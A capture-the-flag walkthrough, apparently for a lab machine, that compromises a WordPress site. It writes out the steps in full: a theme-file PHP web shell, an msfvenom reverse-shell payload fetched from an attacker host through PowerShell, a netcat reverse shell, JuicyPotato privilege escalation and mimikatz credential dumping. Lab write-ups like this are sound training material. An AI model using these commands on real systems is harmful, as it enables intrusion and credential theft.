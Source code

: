 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)
* [Discoveries](#discoveries)  
![alt text](./img/shield.PNG?raw=true)  

## Recon-Enumeration  
![alt text](./img/shield01.PNG?raw=true)  

![alt text](./img/shield02.PNG?raw=true)  

Looks like we have WORDPRESS, time to use WPSCAN  
![alt text](./img/shield03.PNG?raw=true)  
 
This scan will take a while, but after we receive some interesting results  
![alt text](./img/shield04.PNG?raw=true)  
  
![alt text](./img/shield05.PNG?raw=true)    

Ok, navigating through the blog we can find an interesting URL in source code:  
![alt text](./img/shield06.PNG?raw=true)    
  
When we try to access it we are redirect to another page. Maybe we can map the blog changing it value and following the redirect. Let’s try to automate this…
- for i in $(seq 1 100);do echo -n "$i - " && curl http://10.10.10.29/wordpress/?p=$i -i -s | grep Location;echo;done  
The result of this code return 100 lines, but these are the only ones with redirect  
![alt text](./img/shield07.PNG?raw=true)    

In the blog we can find an login page  
![alt text](./img/shield08.PNG?raw=true)    

We can try admin:admin, but it will fail  
![alt text](./img/shield09.PNG?raw=true)    

However the message says that the PASSWORD is incorrect for the username admin, so this username exists. We can try to use the password discovered on the other machines (archetype, oopsie, vaccine)

The credential admin:P@s5w0rd! worked!

## Exploit  
![alt text](./img/shield10.PNG?raw=true)    

From here we can go to APPEARANCE -> THEME EDITOR  
![alt text](./img/shield11.PNG?raw=true)    


The theme used is HIGHLIGHT, uselly the path for the pages in the right corner are:  
- WEBSITE/wp-content/themes/highlight/  
So for the PAGE single.php the url would be  
- 10.10.10.29/wp-content/themes/highlight/single.php

Now let’s edit the page single.php with and backdoor php code. I recommend use the one in the webshells folder:  
![alt text](./img/shield12.PNG?raw=true)    

Copy the php code and paste in the single.php, than UPDATE FILE  
![alt text](./img/shield13.PNG?raw=true)    

Now let’s access the page using the cmd param of the backdoor  
![alt text](./img/shield14.PNG?raw=true)    

Success! Now let’s try to get a shell… run the following command to generate an .exe file
- msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=1234 -f exe -e x86/shikata_ga_nai -i 9 -o reverse.exe
- Start a http server (Ex: sudo python3 -m http.server 80)
- Start an listener on port 123

In the browser access the url:
- http://10.10.10.29/wp-content/themes/highlight/single.php?cmd=powershell -c "(New-Object Net.Webclient).DownloadFile('http://YOUR_IP/reverse.exe','C:\inetpub\wwwroot\wordpress\wp-content\themes\highlight\reverse.exe')"

Now the file is in the same directory of the single.php page. To run the exe just access the follow link:
- http://10.10.10.29/wordpress/wp-content/themes/highlight/single.php?cmd=reverse.exe

You will receive an reverse shell  
![alt text](./img/shield15.PNG?raw=true)    

## Privesc  
![alt text](./img/shield20.PNG?raw=true)    
  
![alt text](./img/shield16.PNG?raw=true)    

So we have the SeImpersonatePrivilege ENABLED, [juicy potato](https://github.com/ohpe/juicy-potato) can help us with the privesc

Let’s upload nc64.exe and JuicyPotato.exe to the machine (don’t forget to set a http server)
- powershell -c "(New-Object Net.Webclient).DownloadFile('http://YOUR_IP/nc64.exe','C:\inetpub\wwwroot\wordpress\wp-content\themes\highlight\nc64.exe')"
- powershell -c "(New-Object Net.Webclient).DownloadFile('http://YOUR_IP/JuicyPotato.exe','C:\inetpub\wwwroot\wordpress\wp-content\themes\highlight\jp.exe')"  
PS: you can find the nc64.exe on internet, just google it

Now we create a bat file, which will be executed by the juicypotato:
- echo start C:\inetpub\wwwroot\wordpress\wp-content\themes\highlight\nc64.exe -e cmd.exe YOUR_IP 9003 > eldruin.bat

To run the command we might need a clsid, for luck we can grab one [here](http://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard/)

Now set up the nc listener on port 9003 and run the command:
- jp.exe -p C:\inetpub\wwwroot\wordpress\wp-content\themes\highlight\eldruin.bat -l 9003 -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}  
![alt text](./img/shield18.PNG?raw=true)    
  
![alt text](./img/shield19.PNG?raw=true)    

Now just go to C:\Users\Administrator\Desktop and get the flag

## Discoveries  
![alt text](./img/shield17.PNG?raw=true)    

Upload mimikatz to the machine and run the command:
- sekurlsa::logonpasswords  
![alt text](./img/shield21.PNG?raw=true)    

